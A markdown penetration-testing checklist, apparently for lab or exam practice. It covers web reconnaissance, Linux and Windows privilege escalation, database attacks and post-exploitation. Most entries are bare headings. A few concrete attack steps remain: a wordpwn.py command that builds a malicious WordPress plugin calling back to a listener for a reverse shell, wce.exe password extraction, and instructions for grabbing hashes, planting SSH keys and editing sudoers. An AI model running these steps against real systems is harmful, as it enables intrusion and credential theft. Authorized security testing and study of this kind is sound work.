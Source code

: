 # Checklists
## Http
- [ ] Run: OpenVAS, Nessus, Nikto and Nexpose
- [ ] Run DirBuster, and DIRB to try and get a directory listing
- [ ] Identify any CRMs or other web apps running
- [ ] Check for virtual domain requirements.  Does the site have links to it's own domain?
- [ ] Add the domain to the /ect/hosts file
- [ ] Check for any pages that allow input, or URLs, and test for bruteforce.
- [ ] Does this have WP? (y/N)
- [ ] Do you have access to the control panel?
- [ ] You can use a WP reverse shell if you like (msfvenom required): https://github.com/wetw0rk/malicious-wordpress-plugin
- [ ] wordpwn.py [LHOST] [LPORT] [HANDLER]  (HANDLER is Y or N) 
wordpwn.py 192.168.0.6 8888 Y
This will generate a plugin to install, and will listen on your machine for a connection
- [ ] Also remember to download any server side code when possible, that way you can look for issues/bugs, or hardcoded passwords
- [ ] See if we can inject our own code like in the 404 template
- [ ] Does this have Flash/Flex? (y/N)
- [ ] Utilize 'deblazy.py' for common checks
- [ ] Check for robots.txt

## EscalationLinux
- [ ] Documents downloaded and ready:
- [ ] Find linux distribution, version architecture:
- [ ] Run the built-in checklists and manual (https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)
- [ ] Look for SUID and GUID bit set:
- [ ] Get a list of users from /etc/passwd, and check for weak passwords
- [ ] Try and run the local enumeration scripts
- [ ] Try escalating with Python:
- [ ] Another Python escalation
- [ ] Interactive Shell
- [ ] From within tcpdump:
- [ ] Get list of sudo files
- [ ] Things to look:
- [ ] SU sudo with no password
- [ ] What services are running as root?:
- [ ] Look for vulnerable/privileged components such as: mysql, sudo, udev, python
- [ ] Is /etc/exports is writable?
- [ ] The following command will list processes running by root, permissions and NFS exports
- [ ] If Mysql is running as root try sys_exec():
- [ ] Environment variables:
- [ ] Find printers: lpstat -a
- [ ] Find apps installed:
- [ ] Find writable configuration files:
- [ ] Grep hard coded passwords:
- [ ] User bash history:
- [ ] User mails:
- [ ] Find interesting binaries:
- [ ] Adding a binary to PATH, to hijack another SUID binary invokes it without the fully qualified path:
- [ ] If you can just change PATH, the following will add a poisoned ssh binary:
- [ ] Generating SUID C Shell for /bin/bash:
- [ ] Without interactive shell:
- [ ] If /etc/passwd has incorrect permissions:
- [ ] Add user www-data to sudoers with no password:
- [ ] If you can sudo chmod:
- [ ] Wildcard injection if there is a cron with a wildcard
- [ ] World readable/writable files:
- [ ] Ring0 kernel exploit for 2.3/2.4:
- [ ] Inspect web traffic:
- [ ] The following script runs exploit suggester and automatically downloads and executes suggested exploits:
- [ ] Other scripts (These are already downloaded):

## EscalationWindows
- [ ] Information gathering:
- [ ] Try dumping the SAM file
- [ ] Check for weak permissions on processes running
- [ ] Try and run the local enumeration python script
- [ ] Other scripts (These are already downloaded):
- [ ] Cleartext Passwords:
- [ ] Change the upnp service binary (XP):
- [ ] Weak Service Permissions:
- [ ] Code for creating a new local admin:
- [ ] Unquoted Service Paths:
- [ ] Always Install Elevated:
- [ ] Group Policy Preference:

## FileTransfer
- [ ] Some options:

## MySql
- [ ] Check for default usernames and passwords.
- [ ] Check for same username and password.
- [ ] Check for blank password.
- [ ] Run bruteforce
- [ ] Standard enumeration commands:
- [ ] List all tables and columns:
- [ ] Execute OS commands:
- [ ] MySQL Root to System Root w/ lib_mysqludf_sys

## NetworkScan
- [ ] Initial Scan
- [ ] Use Masscan, and Sparta to get a second scan
- [ ] Use Nmap, and Sparta and do a slow, stealthly thrid scan, and be sure to get every port.
- [ ] Find all HTTP servers and run the big 4 scanners on them (Nikto, Nessus, Nexpose, OpenVAS)
- [ ] Do a full TCP/UDP slow and silent scan on each machine. (should take about a week)'

## NotableExploits
- [ ] Linux Kernel <= 2.6.36-rc8
- [ ] Linux Kernel <= 2.6.37
- [ ] Linux Kernel 2.6.39 < 3.2.2
- [ ] Linux kernel < 3.2.2
- [ ] Linux Kernel <= 3.19.0-73.8
- [ ] Linux 2.6.32

## Oracle DB
- [ ] Check for default usernames and passwords
- [ ] Check for same username and password
- [ ] Check for blank password
- [ ] Run bruteforce
- [ ] Standard enumeration commands:

## PHP
- [ ] Downloaded file:
- [ ] Looking for LFI/RFI:
- [ ] What you can do with LFI:
- [ ] What you can do with RFI:
- [ ] PHP ZIP Wrapper LFI:

## Postgres Server
- [ ] Check for default usernames and passwords
- [ ] Check for same username and password
- [ ] Check for blank password
- [ ] Run bruteforce
- [ ] Standard enumeration commands:
- [ ] List Tables:

## RootedLinux
- [ ] Grab the shadow file for cracking later.
- [ ] Grab the proof.txt file in the /root dir.
- [ ] Check network interfaces for what networks it is connected to:
- [ ] Remember you might need to use this to pivot.
- [ ] Run sniffer to see what operations are going on.
- [ ] Add public key to authorized keys:
- [ ] Use netstat to find other machines connected: netstat -ano

## RootedWindows
- [ ] Grab hashes for cracking later:
- [ ] Use wce.exe -w to extract any passwords in memory.
- [ ] Grab the C:\Users\Administrator\Desktop\proof.txt file in the desktop dir.
- [ ] Check network interfaces for what networks it is connected to.
- [ ] Remember you might need to use this to pivot.
- [ ] Run sniffer to see what operations are going on.
- [ ] Run Get-GPPPassword from Powersploit to get group.xml encrypted passwords.
- [ ] Use netstat to find other machines connected: netstat -ano

## SMB
- [x] Enumerate
- [x] Null session check
- [ ] NetBIOS over TCP/IP client used to lookup NetBIOS names
- [ ] Check for MS08-067
- [ ] Vulnerability Scanning
- [ ] Bruteforce

## SQL Server
- [ ] Check for default usernames and passwords
- [ ] Check for same username and password
- [ ] Check for blank password
- [ ] Run bruteforce
- [ ] Standard enumeration commands:

